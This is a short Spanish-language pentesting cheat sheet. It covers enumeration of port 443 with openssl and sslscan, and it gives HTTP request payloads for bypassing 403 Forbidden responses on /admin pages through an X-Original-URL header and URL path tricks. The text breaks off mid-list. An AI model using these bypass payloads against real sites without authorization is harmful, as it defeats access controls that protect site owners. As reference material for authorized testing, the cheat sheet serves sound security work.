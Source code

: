 
## Enumeración 443

## Connect 443

Este comando nos dará información de la págona como el certificado SSL web, el código fuente, verisones de TLS, SSLv, emails etc..


```
openssl s_client -connect <ip>/domain:443 #GET 
```

### SSLscan

```
sslscan https://ip/domain
```

## Bypass Status Codes

### 403 (Forbidden)

1. Usando la cabezera "X-Original-URL" (Web Cache Poisoning)

```
GET /admin HTTP/1.1
Host: example.com
```

Bypass con:

```
GET /admin HTTP/1.1
Host: example.com
X-Original-URL: /admin
```

1. Añadiendo un %2e después del primer /

```
example.com/admin --> (403)
```

Bypass con:


```
http://example.com/%2e/admin
```

1. Añadiendo un (.) punto y barra / y un ; en la URL

```
http://example.com/admin --> (403)
```

Bypass con:
